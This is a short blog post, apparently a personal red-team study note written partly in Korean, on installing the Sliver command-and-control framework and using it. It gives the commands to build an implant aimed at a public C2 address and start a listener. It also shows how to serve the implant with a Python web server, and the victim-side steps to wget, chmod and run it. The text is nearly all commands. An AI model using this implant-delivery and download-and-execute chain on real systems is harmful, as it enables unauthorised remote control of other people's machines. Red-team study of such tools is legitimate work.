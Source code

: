 ```yaml
---
title: Red-Team Framework - (1) Sliver
author: Jeongwon
date: 2025-03-26 12:24:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## How to Install Sliver
###### `REF` : [Sliver wiki](https://sliver.sh/docs?name=Getting+Started)

```bash
sudo apt update
curl https://sliver.sh/install|sudo bash

systemctl status sliver # 실행 확인
systemctl start sliver # sliver 실행

sliver
```
![image](assets/img/red-framework-sliver/activate_sliver.png)<br><br><br>

## How to Use Sliver

```bash
# [Sliver] 임플란트 생성 및 Session 서버 생성
generate --http [C2서버 공인 IP] -s [임플란트 경로 & 파일명] --os [타겟 운영체제] --arch [타겟 아키텍쳐]
http -d 54.180.117.219 -l 80

# [공격자 Bash] 웹 서버 생성
python3 -m http.server 8443

# [피해자 Bash] http://54.180.117.219:8443/demo.exe 접근 후 실행
wget http://54.180.117.219:8443/test
chmod +x ./test
./test
```
